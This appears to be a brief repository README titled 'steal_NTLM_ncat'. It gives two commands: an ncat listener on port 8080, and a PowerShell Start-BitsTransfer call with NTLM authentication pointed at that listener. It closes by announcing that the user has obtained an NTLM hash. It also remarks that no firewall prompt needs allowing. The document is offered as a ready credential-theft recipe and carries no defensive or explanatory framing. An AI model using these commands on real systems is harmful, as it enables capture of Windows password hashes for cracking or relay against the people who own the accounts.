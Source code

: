 # steal_NTLM_ncat

Start a CMD window and type:
ncat -l 8080 --keep-open < hello.html
***No need to allow on firewall prompt***

Start a Powershell window and type:
Start-BitsTransfer -Authentication NTLM -Source http://127.0.0.1:8080 -Description http://127.0.0.1:8080

Result:
___You got NTLM hash__
